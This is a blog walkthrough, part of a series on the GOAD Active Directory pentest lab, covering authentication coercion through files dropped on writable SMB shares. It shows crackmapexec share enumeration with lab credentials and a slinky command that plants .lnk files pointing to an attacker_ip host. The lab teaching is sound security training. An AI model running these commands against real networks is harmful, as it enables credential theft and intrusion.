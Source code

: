 ```yaml
---
layout: post
title:  "GOAD - part 13 - Having fun inside a domain"
category : [AD, GOAD]
tags :  AD, Lab, slinky, url, webdav, impersonate, rdphijack
---
```


On the previous post ([Goad pwning part12]({% link _posts/2022-12-21-GOADv2-pwning-part12.md %})) we had fun with with the domains trusts.
I know, i said the 12 part will be the last, but some of the technics presented here are quite fun i wanted to document and practive them in the lab.

The different technics presented here need an active user to exploit them.
As most of the time there is no bot on the lab to simulate the victims, you will have to simulate the victim with an RDP connection.

> This demo is done on my proxmox environment, if you do that on your local deployment change 10.10.10.6 ip with your host ip (192.168.56.1) and for servers change 192.168.56.x to 192.168.10.x

## Coerce me with files

First i will show you different files to drop on windows to coerce an authentication on your server.
These coerce attacks are very well presented in the following talk by gabriel (@vendetce), i recommend you to watch : [https://www.youtube.com/watch?v=b0lLxLJKaRs](https://www.youtube.com/watch?v=b0lLxLJKaRs).

- To do the victim we will launch an rdp session on winterfell with catelyn:

```bash
xfreerdp /d:north.sevenkingdoms.local /u:catelyn.stark /p:robbsansabradonaryarickon /v:winterfell.north.sevenkingdoms.local /cert-ignore
```

- First let's take a look at castelblack server shares:

```bash
cme smb castelblack.north.sevenkingdoms.local -u arya.stark -p 'Needle' -d north.sevenkingdoms.local --shares
```

![part13_cme_shares.png](/assets/blog/GOAD/part13_cme_shares.png)

- The all share is available in read/write so we could use it for our attack.

### slinky : .lnk file

For our first exploitation we will create a file with the cme module **slinky**.

- This module will drop an lnk file in every writable folder on the target server :

Let's drop the file :

```bash
cme smb castelblack.north.sevenkingdoms.local -u arya.stark -p 'Needle' -d north.sevenkingdoms.local -M slinky -o NAME=.thumbs.db SERVER=attacker_ip
```
